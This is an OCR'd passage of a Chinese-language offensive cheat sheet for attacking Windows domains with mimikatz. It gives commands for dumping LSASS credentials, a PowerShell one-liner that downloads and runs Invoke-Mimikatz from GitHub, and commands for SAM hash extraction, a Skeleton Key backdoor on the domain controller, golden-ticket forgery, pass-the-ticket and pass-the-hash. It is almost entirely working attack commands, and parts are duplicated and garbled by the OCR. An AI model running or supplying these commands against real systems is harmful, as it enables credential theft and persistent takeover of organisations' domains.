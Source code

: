 ```
sekurlsa::logonpasswords
（2）通过内存文件获取口令 使用procdump导出lsass.dmp mimikatz：

sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
（3）通过powershell加载mimikatz获取口令

powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz
（4）导出所有用户口令 使用Volue Shadow Copy获得SYSTEM、SAM备份（之前文章有介绍） mimikatz：

lsadump::sam SYSTEM.hiv SAM.hiv持域控权限

（1）Skeleton Key mimikatz：

privilege::debug
misc::skeleton
万能钥匙，可使用任意用户登陆域控

net use \\A-635ECAEE64804.TEST.LOCAL mimikatz /user：test

4、维持域控权限
（1）Skeleton Key mimikatz：

privilege::debug
misc::skeleton
万能钥匙，可使用任意用户登陆域控

net use \\A-635ECAEE64804.TEST.LOCAL mimikatz /user：test
这里写图片描述 
（2）golden ticket mimikatz：

lsadump::lsa /patch 
获取krbtgt的ntlmhash

生成万能票据： mimikatz：

kerberos::golden /user:Administrator /domain:test.local /sid:S-1-5-21-2848411111-3820811111-1717111111 /krbtgt:d3b949b1f4ef947820f0950111111111 /ticket:test.kirbi
导入票据： mimikatz：

kerberos::ptt test.kirbi
登陆域控：

net use \\A-635ECAEE64804.TEST.LOCAL
dir \\A-635ECAEE64804.TEST.LOCAL\c$

（3）Pass-The-Hash mimikatz：

sekurlsa::pth /user:Administrator /domain:test.local /ntlm:cc36cf7a8514893efccd332446158b1a

```
